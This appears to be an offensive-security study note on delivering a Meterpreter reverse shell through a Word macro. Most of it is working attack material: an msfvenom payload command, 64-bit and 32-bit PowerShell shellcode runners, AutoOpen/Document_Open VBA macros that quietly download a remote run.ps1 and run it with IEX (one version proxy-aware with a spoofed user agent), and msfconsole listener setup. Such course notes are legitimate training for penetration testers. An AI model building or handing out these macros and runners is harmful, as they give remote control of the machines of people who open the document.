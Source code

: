 ```yaml
---
title: PowerShell Shellcode in Word
layout: default
parent: Client Side Execution
nav_order: 2
---
```


Similar to CSharp, the theory is to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, 0x3000, 0x40)`
2. Copy shellcode using `[System.Runtime.InteropServices.Marshal]::Copy(shellcodeBuffer, 0, startAddress, $size)`. startAddress here is the return value of `VirtualAlloc()` in step 1.
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`, and assign the value to `$thandle`
4. Don't exit the newly created thread even though our PowerShell is closed using `WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`

First, generate the shellcode using msfvenom:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1
```

Then put it into the Powershell code below for **64-bit**:

```powershell
$Shell32 = @"
using System;
using System.Runtime.InteropServices;

public class Shell32{
[DllImport("Kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

[DllImport("Kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("Kernel32.dll", SetLastError = true)]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

Add-Type $Shell32

[Byte[]] $buf = SHELLCODE HERE
$size = $buf.length
$sizeUIntPtr = New-Object System.UIntPtr $size
[IntPtr]$addr = [Shell32]::VirtualAlloc(0,$sizeUIntPtr,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Shell32]::CreateThread(0,0,$addr,0,0,0);
[Shell32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Note:
* Can remove all the `[return: MarshalAs(...)]`
* Sometimes the DLL might not be correct, refer back to MSDN for the final confirmation

Official Solution from Offsec for **32-bit** (using `msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1`):

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
  [DllImport("kernel32")]
  public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  [DllImport("kernel32", CharSet=CharSet.Ansi)]
  public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  [DllImport("kernel32.dll", SetLastError=true)]
  public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
[Byte[]] $buf = SHELLCODE HERE
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Use this **(with proxy aware and user agent)**:

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell -Command """
    str = str & "New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null; "
    str = str & "$keys = Get-ChildItem 'HKU:\'; "
    str = str & "ForEach ($key in $keys) {if ($key.Name -like '*S-1-5-21-*') {$start = $key.Name.substring(10);break}}; "
    str = str & "$proxyAddr=(Get-ItemProperty -Path 'HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\').ProxyServer; "
    str = str & "[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy('http://$proxyAddr'); "
    str = str & "$wc = new-object system.net.WebClient; "
    str = str & "$wc.Headers.Add('User-Agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36');"
    str = str & "$wc.DownloadString('http://192.168.45.169/run.ps1') | IEX"""
    Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

**try to use the one on top instead of this** Add this to a Microsoft Word Macro `AutoOpen()`:

```vb
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadString('http://IP/run.ps1') | IEX"
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Finally prepare for incoming shell **(remember to change to 32-bit if required)**:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
